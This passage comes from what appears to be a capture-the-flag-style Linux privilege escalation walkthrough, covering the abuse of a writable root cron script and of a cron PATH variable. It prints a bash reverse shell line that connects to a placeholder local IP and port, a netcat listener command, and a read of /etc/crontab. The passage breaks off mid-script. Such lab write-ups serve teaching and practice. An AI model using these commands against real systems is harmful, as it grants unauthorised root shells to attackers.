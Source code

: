 ```
![image](https://user-images.githubusercontent.com/14150485/172330956-081e6528-24cf-4945-8dac-54c8c8c96cb6.png)

Looks like we have write permissions on the file. Let's replace its contents per the instructions on the task with our local IP and port of choice.

```
#!/bin/bash
bash -i >& /dev/tcp/LOCAL_IP/LOCAL_PORT 0>&1
```

The next step is to set up a listener locally and wait for about a minute until the job executes on the target machine and attempts to connect to our IP using the specified port.

```
nc -lvnp LOCAL_PORT
```

After a short wait, we gain root access to the target!

![image](https://user-images.githubusercontent.com/14150485/172333307-7e70957d-60b4-4c83-bf11-5bd83a5d2c8e.png)

<br/>

### 8.1: Read and follow along with the above.

```
No answer needed
```

<br/>
<br/>

## 9: Cron Jobs - PATH Environment Variable

<br/>

Viewing the `crontab` contents we notice the `PATH` variable is starts with our user's home directory.

```
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/14150485/172364659-edd70214-5026-4a1b-8420-3863f47e0a84.png)

Follow the instructions on the task to create an `overwrite.sh` file in our `/home/user/` directory - We can easily do this with `nano` using the `nano /home/user/overwrite.sh` command and saving the file with the following contents:

```
#!/bin/bash
